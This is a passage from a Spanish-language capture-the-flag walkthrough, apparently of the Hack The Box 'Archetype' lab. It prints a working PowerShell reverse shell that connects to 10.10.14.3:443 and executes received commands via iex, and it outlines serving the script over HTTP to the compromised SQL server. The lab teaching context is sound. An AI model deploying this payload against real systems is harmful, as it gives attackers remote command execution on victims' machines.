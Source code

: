 Podemos observar que se nos vuelve a desplegar el usuario `archetype\sql_svc`,
esto significa que `SQL Server` esta corriendo con ese usuario dentro de
`Ẁindows`, y podemos ver un `NULL` lo cual significa que no tiene permisos de
administrador.

Necesitamos una mejor terminal. Intentemos crear una reverse shell mediante
`PowerShell`. Para esto podemos utilizar el siguiente código:

```bash
$client = New-Object System.Net.Sockets.TCPClient("10.10.14.3",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

La linea anterior es necesario guardarla en un archivo en tu equipo, vamos a
llamar al archivo `shell.ps1`.

Ahora que lo hemos guardado en un archivo, solo por no dejar, vamos a expandir
la linea anterior, simplemente queremos que se vea un poco mejor lo que hace.

```bash
$client = New-Object System.Net.Sockets.TCPClient("10.10.14.3",443);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;
	$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
	$sendback = (iex $data 2>&1 | Out-String );
	$sendback2 = $sendback + "# ";
	$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
	$stream.Write($sendbyte,0,$sendbyte.Length);
	$stream.Flush()};
$client.Close()
```

Si observamos, estamos viendo que se crea una conexión a la IP y el puerto
especificado, se crea un stream de datos y a partir de aquí se codifica la
información para poder enviarla a través de la conexión a una terminal remota.

Recuerden cambiar la dirección IP al de su equipo. Si no conoces tu dirección
puedes utilizar el siguiente comando:

```bash
ip addr
```

Con la IP indicada y el archivo creado, desde la terminal nos dirigimos a la
carpeta donde guardaste el archivo. Necesitamos enviar el archivo que esta en
nuestro equipo al servidor `SQL` donde nos conectamos para poder ejecutarlo ahí
y crear la reverse shell.

Para esto, vamos a hacer los siguientes pasos:

-	Levantaremos un servidor `HTTP` del cual descargaremos el archivo
-	Configuramos los puertos de escucha para nuestra conexión de la reverse shell
-	Configuraremos el firewall para aceptar las dos conexiones anteriores
